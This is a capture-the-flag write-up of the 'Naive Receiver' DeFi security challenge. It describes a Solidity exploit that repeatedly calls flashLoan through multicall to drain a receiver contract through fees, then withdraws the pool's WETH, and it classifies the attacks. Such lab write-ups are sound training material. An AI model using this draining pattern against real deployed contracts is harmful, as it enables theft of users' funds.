 # Naive Receiver

## Challenge

There’s a pool with 1000 WETH in balance offering flash loans. It has a fixed fee of 1 WETH. The pool supports meta-transactions by integrating with a permissionless forwarder contract. 

A user deployed a sample contract with 10 WETH in balance. Looks like it can execute flash loans of WETH.

All funds are at risk! Rescue all WETH from the user and the pool, and deposit it into the designated recovery account.

## Solution

I used the multicall function that the NaiveReceiverPool contract inherits, to delegate call the flashLoan function ten times, which took a fixed fee of 1 ether from the receiver contract each time it was called,hence draining out the receiver contract.

```
for (uint256 i = 0; i < 10; i++) {
    loanCalls.push(
        abi.encodeWithSignature(
            "flashLoan(address,address,uint256,bytes)",
            receiver, // The receiver address
            address(weth), // The WETH token address
            WETH_TO_BORROW, // Amount to borrow
            bytes("") // Empty calldata
        )
    );
}
pool.multicall(loanCalls);
```

Since the deployer was already set as the feeReceiver and it also payed the 1000 WETH into the contract upon deployment, I used it to withdraw all the WETH from the NaiveReceiverPool contract to the recovery address.

```
pool.withdraw(weth.balanceOf(address(pool)), payable(recovery));
```

![Alt text](images/naive-receiver.png)

## Attack Classification

### Economic Exploit
The attack exploits the fee mechanism to drain funds economically by making repetitive calls.

### DoS (Denial of Service)
Draining the receiver's balance effectively prevents it from using flash loans in the future, as it will lack the funds to pay the fixed fee.

### Permissionless Withdrawal
The withdraw function allows the deployer (feeReceiver) to withdraw all funds from the pool without safeguards,which exploits a lack of access control to perform fund transfers that drains the contract at once.